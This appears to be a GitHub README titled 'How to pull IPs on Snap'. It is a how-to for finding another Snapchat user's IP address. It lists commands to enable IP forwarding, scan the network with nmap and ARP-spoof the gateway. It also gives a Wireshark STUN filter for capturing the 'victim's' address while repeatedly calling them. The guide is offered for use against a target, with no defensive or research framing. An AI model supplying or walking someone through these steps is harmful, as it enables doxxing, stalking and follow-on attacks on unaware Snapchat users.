 ## **HOW TO PULL IPS ON SNAP** 

### **Here is some things you will need in order to make this work:**
**Requirements:**
- Mac OS X / Kali linux (Or any UNIX)
- A Phone where you have snapchat on (Im assuming its a Phone)
- Nmap
- Some tools and little MITM knowledge!
### **Here's how it's done:**
- Download Wireshark -> **https://www.wireshark.org/**
- Download Arpspoof for Mac -> **https://github.com/ivanvza/arpy**
- Fire up terminal and ip forward your laptop/pc with this scripts:

### **On Kali:**
- sudo sysctl net.ipv4.ip_forward = 1
- sudo net.ipv4.ip_forward = 1

### **On Mac:**
- sudo sysctl -w net.inet.ip.forwarding=1

**Find your Devices local ip and write it down.**
- nmap -sn (or -sP) <gateway ip>/24
<br>
**Example:**
- nmap -sn 192.168.0.1/24
<br>
**Spoof your phone.**
- arpspoof -i -t gateway
<br>
**Example:**
- arpspoof -i en0 -t 192.168.0.160 192.168.0.1
<br>
**Sometimes you need to reverse arpspoof aswell so to be safe, switch gateway with phone ip:**
- arpspoof -i en0 -t 192.168.0.1 192.168.0.160
<br>
**Fire up Wireshark and filter on your phone ip with STUN protocol**
-- ip.addr == <phone ip> && stun
<br>
**Example:** 
- ip.addr == 192.168.0.160 && stun
<br>
**Call the Target on snap and keep calling them for around 5 seconds.
Wireshark should throw up some binding requests, then some other STUN ones.
Those last ones are your victim's ip.**
<br>
**Example**
- https://ibb.co/yN4sJjK
- https://ibb.co/hBzCgwB <---- graph to snapchat osint
